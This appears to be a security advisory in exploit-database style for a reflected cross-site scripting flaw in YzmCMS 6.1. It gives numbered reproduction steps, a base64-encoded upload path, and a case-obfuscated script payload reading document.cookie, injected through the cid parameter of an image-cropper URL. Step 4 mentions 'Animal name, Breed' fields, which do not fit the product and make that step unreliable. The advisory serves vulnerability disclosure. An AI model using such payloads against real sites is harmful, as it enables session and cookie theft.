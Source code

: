                     **yzmcms Reflective Cross-Site-Scripting (XSS) exists**

version：6.1

date：2021-07-12

Author:刘峻岑

Vendor Homepage:http://www.ling-bu.com

Platf orm:php

Type:webapps

```
 Description:
 1.Goto://www.ling-bu.com/member/index/login.html
   Register and log in
 
 2.Goto:http://www.ling-bu.com/member/index/user_pic.html
   Upload avatar,Right click to find his path
 
 3.Goto:http://www.ling-bu.com/uploads/202107/09/210709060654620.gif
   View the path of the picture:/uploads/202107/09/210709060654620.gif
   Encode it in base64:L3VwbG9hZHMvMjAyMTA3LzA5LzIxMDcwOTA2MDY1NDYyMC5naWY=
   
 4.Fill out Animal name, Breed and Description with given payload:</ScRiPt><sCrIpT>alert(document.cookie)</sCrIpT>
 
 5.GOto:http://www.ling-bu.com/attachment/api/img_cropper/spec/2.html?f=L3VwbG9hZHMvMjAyMTA3LzA5LzIxMDcwOTA2MDY1NDYyMC5naWY=&cid=</ScRiPt><sCrIpT>alert(document.cookie)</sCrIpT>
 
 6.Reflective XSS load is triggered
 
```

